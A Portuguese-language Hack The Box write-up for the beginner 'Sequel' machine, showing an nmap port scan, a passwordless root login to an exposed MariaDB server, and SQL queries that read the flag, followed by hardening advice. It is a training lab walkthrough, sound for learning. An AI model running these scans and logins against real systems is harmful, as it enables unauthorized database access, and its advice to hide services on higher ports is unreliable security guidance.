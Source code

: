 ## HTB: Sequel
### 📋 Informações da Máquina

 - Plataforma: Hack the Box
 - Máquina: Sequel
 - Dificuldade: Muito Fácil
 - Ip: 10.129.x.x


## ⚙️ 0. Resumo
A maquina já é da TIER 2 dos Starting Points, essa ela usa um server MySql na versão MariaDB, o objetivo é ter o acesso remoto root do banco e achar a flag

### ⚠️ 0.1 VULNERABILIDADES IDENTIFICADAS

- Ausência de Autenticação como ROOT
- 
- Serviço Exposto na rede

## 🔍 1. ENUMERAÇÃO
### 1.1 Varredura de Portas

Eu não sabia qual era a porta que estaria o serviço, então decidi escanear um número alto de portas

```bash
sudo nmap -sS -sV -p 1-6379 10.129.x.x
```

📊 Resultado:

```bash
PORT     STATE SERVICE VERSION
3306/tcp open  mysql
``` 

✅ Conclusão: Server MySql encontrado aberto na porta 3306


## ⚡ 2. EXPLORAÇÃO
### 2.1 Conexão com o MySQL

Foi bem fácil na real, ja que o server não tinha autenticação com senha, mas tive que colocar " --skip-ssl"
pois tava dando erro sem isso

```bash
mysql --skip-ssl -u root -h 10.129.x.x
```

### 2.2 Enumeração de Dados

Dentro do MySql, usei comandos para explorar o servidor:

```bash
SHOW DATABASES;
```

🎯 Resultado:

```bash
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
```

### 2.3 Procurando a Flag
Eu fui procurar a flag no banco de dados "htb", para selecionar ele usei:

```bash
 USE htb;
```

e depois usei para ver as tabelas dentro dele:

```bash
SHOW TABLES;
```

🎯 Resultado:

```bash
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
```


### 2.3 Captura da Flag

Após achar essas duas tabelas, eu fui na config, pq achei que era a com mais chance de ter alguma coisa, ent usei


```bash
SELECT * FROM config;
```

🎯 Resultado:

![](../screenshots/sequel/flag.png)

## 🛡️ 3. RECOMENDAÇÕES DE SEGURANÇA

- 1. Configurar senha para usuário e usuário ROOT

- 2. Não deixar o serviço aberto e exposto na rede

- 3. Colocar o serviço em uma porta mais alta para dificultar o scan de portas


## 🎯 4. CONCLUSÃO
### 4.1 Resumo do Ataque:

- Complexidade: Baixa

- Impacto: Critíco (Usuário ROOT adquirido)

#### 4.2 Lições Aprendidas:

  1. Sempre coloque senha, e tbm que seja uma senha boa

  2. Não deixe qualquer serviço exposto, tente sempre dificultar o reconhecimento dele

  3. Aprendi a se movimentar em um banco de dados MySql no prompt


### 🧠 Reflexão Pessoal:

"MySQL é um serviço muito usado ainda em muitos sites e aplicações, se você não tiver a devida configuração, alguém que invadir o serviço exposto, pode roubar e deletar todos os bancos de dados hospedados, então sempre coloque senha e proteja seus serviços."

✅ Máquina Finalizada com Sucesso!

Write-up por: Luiz A. | Hack The Box - Sequel | 25/10/25
